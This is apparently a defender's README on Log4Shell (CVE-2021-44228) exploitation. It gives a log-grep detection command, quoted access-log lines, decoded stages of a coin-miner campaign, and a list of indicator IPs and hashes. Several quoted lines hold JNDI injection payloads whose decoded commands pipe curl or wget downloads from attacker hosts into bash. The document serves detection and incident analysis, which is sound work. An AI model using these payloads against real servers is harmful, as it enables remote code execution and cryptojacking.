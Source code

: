 # CVE-2021-44228

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36] (https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.

![ls.sh](lssh-download.png)

``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

#### IOCs

45.155.205.233  
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b  



## Resources 